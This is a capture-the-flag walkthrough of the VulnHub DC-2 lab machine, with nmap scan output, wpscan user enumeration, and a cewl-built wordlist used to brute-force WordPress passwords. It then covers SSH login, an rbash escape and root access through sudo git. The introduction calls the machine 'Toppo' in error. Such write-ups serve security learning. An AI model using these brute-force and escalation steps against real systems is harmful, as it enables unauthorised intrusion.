



<h1>DC: 2</h1>

Today, we'll be looking at the Toppo machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/dc-2,311/).

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A -p- 192.168.56.104
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 06:57 EET
Nmap scan report for 192.168.56.104
Host is up (0.00017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
MAC Address: 08:00:27:09:87:0A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.17 ms 192.168.56.104

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.69 seconds
```
The machine is running http and ssh on port **7744**.

Let's add **dc-2** to the hosts file.

```echo "192.168.56.104 dc-2" >> /etc/hosts```

Now, let's browse the machine on port 80.

We can see that it's running wordpress.


Let's run wpscan to enumerate the machine.

```wpscan --url http://dc-2 -e```

We found three users.


Exploring the wordpress site, we can see the first flag.



It's giving us a hint to use cewl, which is a tool for generating wordlists based on a given url.

```cewl http://dc-2 > wordlist.txt```

Now, we can use this wordlist to bruteforce the wordpress login.

I put the three users we found earlier in a file **users.txt**.

Now, let's run wpscan.

```wpscan --url http://dc-2 -U users.txt -P wordlist.txt```

We found the passwords for two users.



I logged into wordpress and I found the second flag but didn't find anything else useful.


So, I tried the these credentials with ssh.

We got in!


Looks like we are in a restriced shell: **rbash**.


We can use the command ``compgen -c`` to view available commands.

Great! we can fun **vi**.


You can read this great [article](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/) about escaping rbash.


Running that, we got a bash shell.



We also need to change our PATH to be able to use commands.

```export PATH=/bin:/usr/bin:$PATH```

Now, let's perform local enumeration and esculate our priviliges.

We found flag3.


That's a hint to switch user to **jerry**.

In the home directory of the user jerry, we find the fourth flag.


There aren't any hints in here.

Let's use ```sudo -l```.

We can run **git** with sudo.

Let's search for it on [gtfobins](https://gtfobins.github.io).


Let's use this command.

We are root!

Now, we can view the final flag.

